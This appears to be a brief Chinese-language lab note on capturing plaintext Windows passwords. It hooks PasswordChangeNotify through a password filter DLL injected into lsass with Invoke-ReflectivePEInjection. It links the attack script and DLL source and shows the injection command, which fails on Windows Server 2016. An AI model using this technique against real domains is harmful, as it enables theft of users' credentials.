 一个Windows密码过滤DLL，安装了这个DLL后，在用户修改密码的时候会拦截用户输入的明文密码并保存到本地。

原理是在活动目录中，当用户输入新的密码时候，需要校验密码是否符合复杂性要求，如果密码符合要求，LSA就会调用rassfm.dll中的PasswordChangeNotify函数在系统中同步密码。

Hook PasswordChangeNotify 的攻击流程就是劫持上面的流程，获取明文密码

# 一、Hook PasswordChangeNotify攻击
[https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1](https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1)

[https://github.com/clymb3r/Misc-Windows-Hacking/blob/master/HookPasswordChange/HookPasswordChange/HookPasswordChange.cpp](https://github.com/clymb3r/Misc-Windows-Hacking/blob/master/HookPasswordChange/HookPasswordChange/HookPasswordChange.cpp)

```plain
PS C:\Users\Administrator.SEC\Downloads> Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
Specified cast is not valid.
At C:\Users\Administrator.SEC\Downloads\Invoke-ReflectivePEInjection.ps1:2384 char:7
+         if (($PEInfo.DllCharacteristics -band $Win32Constants.IMAGE_D ...
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (:) [], InvalidCastException
    + FullyQualifiedErrorId : System.InvalidCastException

PE platform doesn't match the architecture of the process it is being loaded in (32/64bit)
At C:\Users\Administrator.SEC\Downloads\Invoke-ReflectivePEInjection.ps1:2434 char:4
+             Throw "PE platform doesn't match the architecture of the  ...
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (PE platform doe...d in (32/64bit):String) [], RuntimeException
    + FullyQualifiedErrorId : PE platform doesn't match the architecture of the process it is being loaded in (32/64bi
   t)
```

在Windows Server 2016环境下失败